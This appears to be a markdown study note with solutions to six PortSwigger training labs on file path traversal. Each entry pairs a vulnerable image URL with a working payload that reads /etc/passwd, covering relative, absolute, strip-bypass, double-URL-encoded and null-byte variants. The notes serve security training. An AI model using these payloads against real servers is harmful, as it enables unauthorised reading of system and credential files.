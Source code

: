 # Directory traversal

## Labs

### [Lab: File path traversal, simple case](https://portswigger.net/web-security/file-path-traversal/lab-simple)

Vulnerable URL: https://domain/image?filename=file

This URL is vulnerable to URL transversal. The parameter `filename=../../../etc/passwd` (relative file path) returns the users file on the server to the front-end

### [Lab: File path traversal, traversal sequences blocked with absolute path bypass](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)

Vulnerable URL: https://domain/image?filename=file

This URL is vulnerable to URL transversal. The parameter `filename=/etc/passwd` (absolute file path) returns the users file on the server to the front-end

### [Lab: File path traversal, traversal sequences stripped non-recursively](https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively)

Vulnerable URL: https://domain/image?filename=file

This URL is vulnerable to URL transversal. The parameter `filename=....//....//....//etc/passwd` (relative file path bypassing str.strip/replace functions) returns the users file on the server to the front-end

### [Lab: File path traversal, traversal sequences stripped with superfluous URL-decode](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)

Vulnerable URL: https://domain/image?filename=file

This URL is vulnerable to URL transversal. The parameter `filename=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34` (double URL encoded of `../../../etc/passwd` to bypass input validations) returns the users file on the server to the front-end

### [Lab: File path traversal, validation of start of path](https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path)

Vulnerable URL: https://domain/image?filename=file

This URL is vulnerable to URL transversal. The parameter `filename=/var/www/images/../../../etc/passwd` (relative path bypassing path requirement) returns the users file on the server to the front-end

### [Lab: File path traversal, validation of file extension with null byte bypass](https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass)

Vulnerable URL: https://domain/image?filename=file

This URL is vulnerable to URL transversal. The parameter `filename=../../../etc/passwd%00.png` (relative path bypassing file extension requirement with null byte) returns the users file on the server to the front-end

